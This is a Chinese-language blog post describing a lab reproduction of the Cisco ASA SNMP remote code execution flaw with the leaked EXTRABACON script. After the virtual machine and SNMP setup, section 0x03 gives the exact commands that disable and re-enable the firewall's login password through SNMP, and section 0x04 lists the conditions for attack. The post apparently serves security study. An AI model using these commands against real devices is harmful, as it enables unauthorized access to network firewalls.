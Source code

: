 ```yaml
---
layout:     post
title:      Cisco SNMP RCE漏洞复现
author:     wooy0ung
tags: 		cisco
category:  	exploit
password:	yes
---
```



>利用环境:
>攻击机: 192.168.2.63		Mac OSX 10.12.5  
>靶机: 192.168.2.10		Cisco ASA 8.42  
>主机: 192.168.2.142		Windows 10 Pro  
>利用脚本:  
>\eqgrp-free-file\Firewall\EXPLOITS\EXBA\extrabacon_1.1.0.1.py  
<!-- more -->


### 0x00 启动ASA虚拟机

VMware Workstation导入ASA-8.4.2虚拟机，修改虚拟网络编辑器桥接物理网卡，虚拟机网络设置桥接物理网络。

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x00.png)


![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x01.png)


串行端口的命名管道修改为\\.\pipe\asa_com

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x02.png)

安装named pipe tcp proxy，按下图配置

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x03.png)

安装SecureCRT，新建Session

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x04.png)

打开ASA虚拟机电源，登入系统(用户名：netemu 密码：netemu)
```
ciscoasa> en
password:******
ciscoasa# show run
```
![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x05.png)


### 0x01 配置ASA网络设置

配置网卡、IP

```
ciscoasa# configure terminal
ciscoasa(config)# interface GigabitEthernet0
ciscoasa(config-if)# ip address 192.168.2.10 255.255.255.0	# 配置该网卡IP为192.168.2.10
ciscoasa(config-if)# no shut
ciscoasa(config-if)# nameif inside
```

配置http/https管理方式

```
ciscoasa# configure terminal 
ciscoasa(config)# http server enable 
ciscoasa(config)# http 192.168.2.0 255.255.255.0 inside
```

使用浏览器访问https://192.168.2.10，在弹出页面安装ASDM，登入ASDM(用户名：netemu 密码：netemu)

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x06.png)

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x07.png)

ssh管理配置

```
ciscoasa# configure terminal 
ciscoasa(config)# crypto key generate rsa modulus 1024
INFO: The name for the keys will be: <Default-RSA-Key>
Keypair generation process begin. Please wait...
ciscoasa(config)# write memory
ciscoasa(config)# ssh 192.168.2.10 255.255.255.0 inside
ciscoasa(config)# aaa authentication ssh console LOCAL
```

telnet管理配置
```
ciscoasa# configure terminal 
ciscoasa(config)# telnet 192.168.2.10 255.255.255.0 inside
```

开启snmp-server
```
ciscoasa# configure terminal 
ciscoasa(config)# snmp-server host inside 192.168.2.20 community public
```


### 0x02 测试链路连接

确认主机到ASA链路正常

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x08.png)

确认主机到攻击机正常

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x09.png)

确认攻击机到ASA正常

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x0a.png)

确认ASA到攻击机正常

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x0b.png)

确认能通过ssh管理ASA
![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x0c.png)


### 0x03 漏洞复现

ASA信息搜集，得到系统版本号、登陆名
```
python extrabacon_1.1.0.1.py info -t 192.168.2.10 -c public
```

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x0d.png)

ASA版本号是8.42，存在漏洞，下面disable登入密码

```
python extrabacon_1.1.0.1.py exec -k vZwDQA -t 192.168.2.10 -c public --mode pass-disable
```

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x0e.png)

成功登入系统(登陆名：ciscoasa)

```
ssh -p22 -o KexAlgorithms=+diffie-hellman-group1-sha1 ciscoasa@192.168.2.10
```

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x0f.png)

enable登入密码，已登陆状态能够保持，新机器登陆再次需要密码

```
python extrabacon_1.1.0.1.py exec -k vZwDQA -t 192.168.2.10 -c public --mode pass-enable
```

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x10.png)


### 0x04 漏洞利用条件

1.目标防火墙开启22(ssh)或23(telnet)管理方式

2.目标配置了snmp服务。并且snmp配置中的Host Access Entry IP地址和Community字符串能够获得或者已知。

3.目标版本在8.X-8.4.4之间。
